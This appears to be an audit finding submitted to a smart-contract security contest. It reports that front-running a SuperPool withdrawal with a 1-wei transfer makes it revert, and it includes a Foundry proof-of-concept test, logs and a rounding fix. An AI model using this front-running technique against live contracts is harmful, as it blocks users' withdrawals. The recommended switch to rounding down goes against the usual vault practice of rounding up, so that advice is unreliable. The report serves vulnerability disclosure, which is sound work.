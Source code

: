 Rhythmic Foggy Ant

High

# Anyone can revert a withdrawal by sending 1 wei unit of ASSET to SuperPool contract with fron-run

### Summary

The SuperPool contract accepts direct token transfer to itself, it normal behavior, but anyone can revert a valid withdrawal transaction by sending minimum unit of ASSET (wei) to the SuperPool contract using front-run attack.

### Root Cause

The root cause seems the incorrect rounding in [SuperPool.withdraw()](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/25a0c8aeaddec273c5318540059165696591ecfb/protocol-v2/src/SuperPool.sol#L281), it is rounding up there, due to rounding up it increases the total share to be burned by 1, as the share of the user has increased by 1 but in his account the share is still the old amount the [ERC20.burn()](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/25a0c8aeaddec273c5318540059165696591ecfb/protocol-v2/src/SuperPool.sol#L516) is reverted by `ERC20: burn amount exceeds balance` error. 

### Internal pre-conditions

There is no such internal pre-conditions but we will have to initialize 3 storage variable in SuperPool contract to easily understand the bug. Declare these 3 variables:
```solidity
uint public _share;     // to catch the 'share' in `_withdraw()`
uint public lta2;          // to catch the lastTotalAssets in `withdraw()`
uint public ts2;           // to catch the totalSupply in `withdraw()`
```
We have declared `lta2` & `ts2` to catch above mentioned values just before `_withdraw()` call inside `withdraw()`.
So, now edit the `withdraw()` like this:
```diff
function withdraw(uint256 assets, address receiver, address owner) public nonReentrant returns (uint256 shares) {
    accrue();
+    lta2 = lastTotalAssets;
+   ts2 = totalSupply();
    shares = _convertToShares(assets, lastTotalAssets, totalSupply(), Math.Rounding.Up);
    if (shares == 0) revert SuperPool_ZeroShareWithdraw(address(this), assets);
    _withdraw(receiver, owner, assets, shares);
  }
```
and edit the `withdraw()` like this:
```diff
function _withdraw(address receiver, address owner, uint256 assets, uint256 shares) internal {
    _withdrawFromPools(assets);
    if (msg.sender != owner) ERC20._spendAllowance(owner, msg.sender, shares);
+    _share = shares;
    ERC20._burn(owner, shares);
    lastTotalAssets -= assets;
    ASSET.safeTransfer(receiver, assets);
    emit Withdraw(msg.sender, receiver, owner, assets, shares);
  }
```

### External pre-conditions

External precondition is that any one need to front-run the user's withdraw() call by sending 1 wei of ASSET directly to the SuperPool.sol contract.

### Attack Path

Suppose Bob is the innocent user, as usual & Alice is the attacker.
1. Bob deposited 100 ether of ASSET to the pool.
2. After 10 days Bob wants to withdraw his assets so he called `withdraw()` with necessary arguments. The transaction is now in mempool.
3. Alice saw that transaction and front-run the Bob's transaction by sending 1 wei of ASSET to the SuperPool contract using `transfer()` method.
4. Now Bob's transaction executed & reverts.

### Impact

User's withdrawal will fail.

### PoC

```solidity
  function test_isItBug() public {
    vm.startPrank(poolOwner);
    superPool.addPool(linearRatePool, 1000 ether);
    vm.stopPrank();
    address Alice = makeAddr("Alice");
    asset1.mint(Alice, 10 ether);
    vm.prank(Alice);
    asset1.transfer(address(superPool), 1);        //@audit Alice directly transferring 1 wei of ASSET to SuperPool contract
    vm.startPrank(user);
    asset1.mint(user, 100 ether);
    console2.log("Asset in pool: ", asset1.balanceOf(address(superPool)));
    asset1.approve(address(superPool), 100 ether);
    uint256 shares = superPool.deposit(100 ether, user);
    console2.log('Shares: ', shares);
    skip(10 days);
    superPool.withdraw(100 ether, user, user);
    console2.log("lastTotalAssets:", superPool.lta2());
    console2.log("totalSupply(): ", superPool.ts2());
    console2.log("_Shares: ", superPool._share());
    vm.stopPrank();
  }
```
Run this test in SuperPool.t.sol contract, the transaction will be reverted by this:
```solidity
Ran 1 test for test/core/Superpool.t.sol:SuperPoolUnitTests
[FAIL. Reason: revert: ERC20: burn amount exceeds balance] test_isItBug() (gas: 609612)
Logs:
  Asset in pool:  100001
  Shares:  99999000019999600007

Suite result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 6.41ms (732.87µs CPU time)
```
Now comment out [this](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/25a0c8aeaddec273c5318540059165696591ecfb/protocol-v2/src/SuperPool.sol#L516) line and run the test again, you will see this output:
```solidity
Ran 1 test for test/core/Superpool.t.sol:SuperPoolUnitTests
[PASS] test_isItBug() (gas: 571732)
Logs:
  Asset in pool:  100001
  Shares:  99999000019999600007
  lastTotalAssets: 100000000000000100001
  totalSupply():  99999000019999700007
  _Shares:  99999000019999600008

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.16ms (897.00µs CPU time)
```
Here, notice one thing, as I mentioned in preconditions, the `_share` variable is holding the share's value in `_withdraw()`, which was passed by `withdraw()`, here the share amount is different than share received by user, the user received 99999000019999600007 as share but `withdraw()` passed 99999000019999600008 as share, why? because in `withdraw()` the `_convertToShares()` returned 99999000019999600008 as share. So now question is - why the share was increased by 1?
Lets investigate what happened in `_convertToShares()`:
If you follow the preconditions section I have added 2 storage variables just before `_convertToShares()` call in `withdraw()` - `lta2` & `ts2`. The arguments of `_convertToShares()` are like this:
```solidity
shares = _convertToShares(assets, lastTotalAssets, totalSupply(), Math.Rounding.Up);
```
the `lta2` is lastTotalAssets & `ts2` is totalSupply().
In `_convertToShares()` the `Math::mulDiv()` is called like this:
```solidity
shares = _assets.mulDiv(_totalShares + 1, _totalAssets + 1, _rounding);
```
Where `_totalAssets` is lastTotalAssets i.e lta2 & `_totalShares` is totalSupply() i.e ts2.
Now, if you implement the `mulDiv()` in chisel, without the `_rounding`, then you will get this output:
```solidity
➜ mulDiv(100 ether, 99999000019999700008, 100000000000000100002)
Type: uint256
├ Hex: 0x56bc3d0b3665b2d87
├ Hex (full word): 0x56bc3d0b3665b2d87
└ Decimal: 99999000019999600007
```
The returned amount is share of the user, it is same as the user has received after depositing, but why the `_convertToShares()` was returning the share by incrementing 1? This is because it is rounding up, for that reason at the time of burning the share the contract considering the incremented value, not the value which the user actually got after depositing. So using this the attacker, in this PoC Alice, could front-run the withdrawal call and made it revert.
Now if you uncoment [this](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/25a0c8aeaddec273c5318540059165696591ecfb/protocol-v2/src/SuperPool.sol#L516) line, and use `Math.Rounding.Down` instead of `Math.Rounding.Up` & run the test again the test will execute successfully, the output will be this in this case:
```solidity
Ran 1 test for test/core/Superpool.t.sol:SuperPoolUnitTests
[PASS] test_isItBug() (gas: 551427)
Logs:
  Asset in pool:  100001
  Shares:  99999000019999600007
  lastTotalAssets: 100000000000000100001
  totalSupply():  99999000019999700007
  _Shares:  99999000019999600007

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.71ms (775.65µs CPU time)
```

### Mitigation

Calling the `_convertToShare()`, in SuperPool::withdraw(), with `Math.Rounding.Down` instead of `Math.Rounding.Up` can solve this issue.